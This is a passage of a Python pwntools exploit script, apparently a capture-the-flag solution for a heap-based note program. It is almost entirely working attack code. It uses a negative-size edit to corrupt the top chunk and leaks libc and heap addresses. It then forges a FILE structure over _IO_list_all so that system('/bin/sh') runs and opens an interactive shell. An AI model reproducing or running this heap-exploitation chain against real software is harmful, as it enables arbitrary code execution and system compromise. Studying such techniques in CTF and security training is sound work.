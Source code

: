 ```plain
    sl(b"1")
    ru(b"How long is your note?")
    sl(str(size))
    ru(b"Please write your note now:")
    s(data)

def show():
    ru(b"Input your choice >> \n")
    sl(b"2")


def edit(idx,size,data):
    ru(b"Input your choice >> \n")
    sl(b"3")
    ru(b"Which note do you want to change?")
    sl(str(idx))
    ru(b"Please input the size of your note:")
    sl(str(size))
    ru(b"Please write your new note:")
    s(data)


add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
#dbg()
add(0x400,b"b"*8)

show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
io_list_all = libc_base+libc.sym["_IO_list_all"]
system = libc_base+libc.sym["system"]
print("libc_base: ",hex(libc_base))
print("io_list_all: ",hex(io_list_all))

edit(2,-1,b"c"*0x10)

show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
print("heap_addr: ",hex(heap_addr))

payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)

ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))

itr()
```
